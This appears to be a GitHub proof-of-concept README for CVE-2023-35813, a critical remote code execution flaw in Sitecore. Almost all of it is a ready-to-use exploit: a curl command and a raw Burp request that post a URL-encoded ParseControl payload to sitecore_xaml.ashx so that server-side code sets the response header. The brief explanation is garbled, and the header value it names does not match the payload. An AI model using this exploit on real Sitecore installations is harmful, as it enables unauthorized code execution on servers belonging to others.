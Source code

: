CVE: 2023-35813
CVSS Score: 9.8
Severity: Critical 

Here we are going to give command like return HTTP header  response back like -

My Request -

content-type: admin

Response should be - 

content-type: admin

Remote Code Execution 




#poc

`curl --data '__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E")'http:// <target> /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index -v`


#poc
burp

```
POST /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index HTTP/2
Host:  <target> 
Content-Type: application/x-www-form-urlencoded
Content-Length: xxx


__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E
```
